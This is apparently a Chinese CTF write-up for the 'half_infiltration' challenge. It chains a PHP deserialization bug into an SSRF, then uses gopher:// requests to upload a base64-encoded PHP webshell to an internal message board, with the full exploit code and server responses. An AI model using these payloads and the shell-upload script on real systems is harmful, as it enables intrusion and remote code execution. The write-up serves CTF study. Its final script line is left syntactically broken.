

half_infiltration
开局的页面如下
<?php
highlight_file(__FILE__);
$flag=file_get_contents('ssrf.php');
class Pass
{
function read()
{
ob_start();
global $result;
print $result;
}
}
class User
{
public $age,$sex,$num;
function __destruct()
{
$student = $this->age;
$boy = $this->sex;
$a = $this->num;
$student->$boy();
if(!(is_string($a)) ||!(is_string($boy)) || !(is_object($student)))
{
ob_end_clean();
exit();
}
global $$a;
$result=$GLOBALS['flag'];
ob_end_clean();
}
}
if (isset($_GET['x'])) {
unserialize($_GET['x'])->get_it();
}
思路是进行两次反序列化, 第一次将$_GLOBALS[‘flag’]赋值给全局变量$result, 第二次反序列化是让程序在ob_end_clean()执行之前报错退出. ob_start会打开输出缓冲
启用输出缓冲会导致PHP开始存储你输出的脚本而不是立即将它们发送到客户端。当脚本结束或者你调用了ob_flush()函数，PHP才会将内容发送到客户端。
ob_end_clean会将输出缓冲的内容进行一个清空, 那么如果要看到$result的内容的话, 我们就需要在ob_end_clean之前退出程序. 通过将$a赋值为this可以做到让程序报错退出.
<?php
class Pass{
function read(){
// ob_start();
global $result;
print $result;
}
}
class User{
public $age, $sex, $num;
function __construct($a, $b, $c)
{
$this->age = $a;
$this->sex = $b;
$this->num = $c;
}
}
echo urlencode(serialize([
new User(new Pass(), "read", "result"),
new User(new Pass(), "read", "this")
]));
?>
然后我们可以看到ssrf.php的内容
<?php
//经过扫描确认35000以下端口以及50000以上端口不存在任何内网服务,请继续渗透内网
$url = $_GET['we_have_done_ssrf_here_could_you_help_to_continue_it'] ?? false;
if(preg_match("/flag|var|apache|conf|proc|log/i" ,$url)){
die("");
}
if($url)
{
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HEADER, 1);
curl_exec($ch);
curl_close($ch);
}
?>
扫描发现
http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/
有东西
HTTP/1.1 200 OK
Date: Thu, 27 Aug 2020 13:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=60uap1c9tcik5f1ivmqqp933g2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1121
Content-Type: text/html; charset=UTF-8
<!DOCTYPE html>
<html>
<head>
<title>Message Board</title>
<link rel="stylesheet" href="css/bootstrap.min.css" />
</head>
<body>
<div class="container" style="text-align:center;vertical-align:middle;">
<div class="row" style="text-align:center;vertical-align:middle;">
<h1>Message Board </h1>
</div>
<div class="row">
<br><br>
<p class="lead">
Since there is only one administrator, a person can only submit one opinion at a time.
Each time a new opinion is submitted, all old comments will be deleted
<br><br>
</p>
</div>
<br>
<div class="row" style="text-align:center;vertical-align:middle;">
<form method="POST" class="form-inline">
<div class="form-group">
<input class='form-control' type="text" name="file">
</div>
<div class='panel-body'>
<textarea class='form-control' name='content' rows='6'></textarea>
<br>
<br>
<div class="form-group">
<button type="submit" class='btn btn-default col-md-2 form-control' value="Submit">Submit</button>
</div>
</form>
</div>
同时
http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/
可以访问, 那么这里应该是上传东西到目录下面了.这里使用gopher协议来发送post上传文件, 这里依然会有一个过滤, 包括等号在内的几种符号和字母组合都被过滤了,使用二次编码协议来绕过.
import requests
from urllib.parse import urlencode, quote_plus, quote
url0 = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=gopher://127.0.0.1:40000/_"
upload_data = {
'file':'php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php',
'content':'UEQ4OVlHTmhkQ0F2Wm14aFoyQTc' # 似乎可以正常解密的base64都无法写入文件中
}
upload_data = urlencode(upload_data, quote_via=quote_plus)
print(upload_data)
gopher_content = '''POST / HTTP/1.1
Host: 127.0.0.1:40000
Cookie: PHPSESSID=hhhhhhhhhhhhhhhhhhhhhhhaaa;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: {length}
{data}'''.format(length = len(upload_data), data=upload_data).replace('\n', '\r\n')
# ssrf need double url encode
url = url0 + quote(quote(gopher_content))
header = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
while True:
requests.get(url, headers=header)
validate = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/hhhhhhhhhhhhhhhhhhhhhhhaaa/shell.php
res = requests.get(validate)
print(res.content)
